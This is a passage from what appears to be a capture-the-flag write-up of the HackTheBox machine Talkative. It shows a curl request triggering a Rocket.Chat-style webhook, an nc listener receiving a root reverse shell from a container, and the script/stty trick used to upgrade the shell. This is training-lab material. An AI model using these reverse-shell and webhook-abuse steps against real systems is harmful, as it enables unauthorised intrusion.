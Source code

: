 This is how I trigger the webhook.

If there are errors in my JavaScript syntax, it will tell you on revisiting
this page as well.

#### Shell

With `nc` listening, I’ll use `curl` to trigger the WebHook:

    
    
    oxdf@hacky$ curl http://talkative.htb:3000/hooks/DipzE7grNCHMg2ty4/9YNLS4NfMsRihzAP5yLoqqz98amQvACcuot3sAyfSumt2GqW
    {"success":false}
    

It reports failure, but there’s a connection at `nc`:

    
    
    oxdf@hacky$ nc -lnvp 445
    Listening on 0.0.0.0 445
    Connection received on 10.10.11.155 42576
    

It’s a shell:

    
    
    id
    uid=0(root) gid=0(root) groups=0(root)
    

Upgrade with [the script trick](https://www.youtube.com/watch?v=DqE6DxqJg8Q):

    
    
    script /dev/null -c bash
    Script started, file is /dev/null
    root@c150397ccd63:/app/bundle/programs/server# ^Z
    [1]+  Stopped                 nc -lnvp 445
    oxdf@hacky$ stty raw -echo ; fg
    nc -lnvp 445
                reset
    reset: unknown terminal type unknown
    Terminal type? screen
    root@c150397ccd63:/app/bundle/programs/server# 
    

## Shell as root on Talkative

### File Upload

#### Initial Enumeration

Again, I have a shell in a Docker container that is relatively empty. `/root`
has nothing of interest, and there are no folders in `/home`.

This container also has very limited tools. No `nc`, `wget`, `curl`, which
removes many of the standard ways I would upload files to a box.
